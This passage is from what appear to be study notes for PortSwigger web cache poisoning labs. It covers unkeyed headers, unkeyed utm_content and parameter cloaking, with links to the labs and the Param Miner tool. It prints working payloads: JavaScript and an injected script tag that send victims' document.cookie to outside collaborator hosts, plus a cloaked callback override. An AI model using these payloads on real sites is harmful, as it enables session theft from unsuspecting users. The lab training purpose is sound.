 ```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
```

> Hosting on the exploit server, injecting the **`X-Forwarded-Host`** header in request, and poison the cache until victim hits poison cache.

```
/resources/js/tracking.js
```

> Body send session cookie to collaboration service.

```javascript
document.location='https://collaboration.net/?cookies='+document.cookie;
```

> Keep **Poisoning** the web cache of target by resending request with `X-Forwarded-Host` header.

[PortSwigger Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)

> Youtube video showing above lab payload on exploit server modified to steal victim cookie when victim hits a cached entry on back-end server. The payload is the above JavaScript.

[YouTube: Web cache poisoning with unkeyed header - cookie stealer](https://youtu.be/eNmF8fq-ur8)

[Param Miner Extension to identify web cache vulnerabilities](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943)

#### Unkeyed utm\_content

> Target is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. Param Miner's "Guess GET parameters" feature will _**identify**_ the parameter as utm\_content.

```
GET /?utm_content='/><script>document.location="https://Collaborator.com?c="+document.cookie</script>
```

> Above payload is cached and the victim visiting target cookie send to Burp collaborator.

[PortSwigger Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)

#### Cloaking utm\_content

> Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will _**identify**_ the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.\
> The `source code` for `/js/geolocate.js?callback=setCountryCookie` is called on every page and execute callback function.

> The `callback` parameter is keyed, and thus cannot poison cache for victim user, but by combine duplicate parameter with `utm_content` it then excluded and cache can be poisoned.

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=EVILFunction
```
